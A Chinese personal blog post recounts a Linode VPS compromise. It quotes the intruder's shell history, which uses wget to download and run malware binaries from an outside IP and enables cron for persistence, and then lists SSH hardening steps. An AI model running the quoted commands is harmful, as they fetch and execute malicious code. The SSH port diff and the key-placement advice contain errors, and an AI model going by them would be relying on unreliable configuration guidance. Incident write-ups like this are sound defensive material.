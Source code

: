 ```yaml
---
title: linode 使用记
slug: linode_usage
image: https://yun.weenas.com:8006/i/2023/06/04/647c0b71201f2.jpg
date: 2016-12-21 14:48:15
tags:
description: "VPS初体验"
categories:
  - 网络
  - VPS
keywords:
  - VPS
  - linode
hide: true
---
```


使用Linode也有一段时间了，感觉非常不错，虽然使用的是加州的机房，延时基本上稳定在200ms左右，web访问感觉不明显，ssh尚可接受。据说日本机房在100ms多一点，但是考虑到要做迁移工作，还是先保持不动吧，待有时间再研究。

## 被攻击了

由于以前都是在局域网或者虚拟机上搭建服务器，从来没有关注过安全方面的配置，导致我的VPS安全配置不足。上个月遭受到Dos攻击，让我意识到了安全的重要性 ，以前没有什么概念，原来网络攻击离我们这么近。

被攻击后的症状是疯狂的往外发数据，从下面的图表可以看出有三天的时间几乎是满负荷的发送（注意看左边的单位），导致我2TB的流量在两天不到就被消耗殆尽。其实在使用80%流量时系统会自动发送邮件提醒，当时正值国庆假期，收到邮件时没有引起重视。后来Linode客服也发现了异常，主动创建了一个Ticket问我是怎么回事，我才发现流量已经超了400多G。。

![linode_data_traffic.jpg](https://yun.weenas.com:8006/i/2023/06/04/647c0b7224c8f.jpg)

赶紧登录上去使用nethogs查看网络使用情况，原来是一个名叫mysql515的进程在以80Mbps左右的速度往外发送数据，立即kill掉再想办法清理。

想要知道为什么被攻击，就必须知道哪些人登录过服务器，`/var/log/auth.log`是一个重要的线索，它记录了所有用户的登录日志。打开后非常壮观，已经有好几万行的日志，其中有很大一部分都是尝试root和admin的错误登录记录，应该是利用脚本不断的尝试root密码。这么多日志也不好去查什么时间被谁攻破，我估计root密码已经被试出来了，因为我的密码是一个常用单词。查看`/root/.bash_history`，一切都明白了：

```log
service crond start
/etc/rc.d/init.d/crond start
killall -9 cnet2
cd /bin
rm -rf cnet2
wget -c http://61.160.194.120:120/cnet2
chmod 0755 /bin/cnet2
./cnet2
cd /etc
mkdir init.d
mkdir rc.d
cd /etc/rc.d
mkdir rc5.d
cd /bin
rm -rf mysql515 cnet2 socket
wget -c http://61.160.194.120:121/mysql515
chmod 0777 /bin/mysql515
./mysql515
service crond start
/etc/rc.d/init.d/crond start
```

按图索骥，根据它执行的命令将所有相关的文件找到并彻底删除，注意有启动cron服务，它在`/etc/crontab`里面增加了一个定时启动脚本，也要一并删除，不然还会死灰复燃。

## 如何防护

以上只是查找和清除病毒文件，如何防止以后再被攻击呢？我做了以下措施：

1. 必须的，修改root密码，大写小写数字符号，能用上的都用上，不要忘记就好。:)
2. 禁止ssh的root登录

```diff
/etc/ssh/sshd_config
- PermitRootLogin yes
+ PermitRootLogin no
```

3. 修改ssh的默认端口，只要65535以内都行，比如修改为`622`。当然，登录需要多增加一个端口参数：`ssh -p 622 user@server.com`，另外还要注意修改服务器的防火墙设置。

```diff
/etc/ssh/sshd_config
- Port 22
- Port 622
```

4. 改用ssh密钥登录,即使用`ssh-keygen`生成公钥和私钥，在服务器配置好私钥，远程使用公钥登录，这样可以完全禁用密码登录

修改后，再去查看`/var/log/auth.log`，世界一下就清净了。当然，以上的修改不足以使VPS非常安全，但是防止普通的攻击已经足够了。

这里要赞一个Linode的客服，他们的服务非常的周到而且专业，主动建立Ticket，每天都会在Ticket上问你的进展并询问你是否需要帮助，在任何时候你需要帮助他们都会在10分钟以内给予你答复，一个月10刀的价格我觉得值了，想想国内的公司什么时候能做到这种水平。

忘记说超流量的收费问题了，信用卡账单下来才知道这个月多收了47刀，价格是0.1刀/1G，也就是说我超了470G，价格不便宜，但是正常使用我想怎么样也不会超吧，所以请大家千万做好防护措施。万幸的是攻击发生在月末，有部分流量是算10月份的，否则多交的钱可能翻番。

最后，祝大家都能拥有满意的VPS！
